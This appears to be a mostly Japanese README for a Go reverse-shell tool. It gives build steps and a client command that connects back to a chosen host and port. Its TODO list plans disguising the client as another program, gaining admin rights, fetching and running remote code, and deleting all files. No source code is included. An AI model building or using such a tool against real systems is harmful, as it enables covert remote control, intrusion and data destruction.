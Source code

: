 # GoReverSH
![ソースコードサイズ](https://img.shields.io/github/repo-size/geniusmaaakun/GoReverSH)
![言語](https://img.shields.io/github/languages/top/geniusmaaakun/GoReverSH)
![ライセンス](https://img.shields.io/github/license/geniusmaaakun/GoReverSH)


Rogo画像

This is Golang ReverseShell

# other 
en@ble@ny

# 詳細

# 使い方
configにホストとポート指定

## IOS
make build
## Windows
make build_win

## Server
./goreversh_server
## Client
./goreversh_client -host "host" -port "port"


実行画面の画像


## 未実装
### Test
TestWaitNotice
TestClist
Cert

### 関数
get hostname
get currentuser


## TODO
[ ]makefile
変数　ビルドファイル名など

[ ]ReadMe

[ ]color

[ ]clean
    ファイル全削除


[ ]upload　土日
    dir対応
    downloadを逆にする。
    クライアント側もオブザーバーパターンにする方がいい
    outをデコード　

[ ]upload
特定のUrlのzipダウンロード、解答するコードを送りつけて実行するプログラム開発
もしくはDirectoryの場合は、zipを送りつけて解凍


[ ]ダウンロード
    サイズ、パーミッション

[ ]出力ディレクトリ変更コマンド


[ ]別プログラムに偽装　バッチファイルなど
管理権限


[ ]暗号化
TLS -> AES共通鍵


[ ]クライアントテストコード 
計画して一つずつ
connモックを使って読み込みするRead


-[ ]ロゴとアスキーアート


## その他
ゴルーチンリークを注意

build op make　でmainの変数に代入

操作ログを残す
logfile
出力をsetOutputで書き出し


ダウンロードなどは、コネクション二つ貼ってやる方法もあり？
制御コマンド用と通信用


暗号化
base64でキーを埋め込み　RSA AESで暗号化
暗号文.共通鍵をサーバー側の秘密鍵で暗号化
クライアントは、公開鍵を受け取り複合化する


TLSを使う？
実際は証明書を発行しないので、独自に暗号化する必要がある
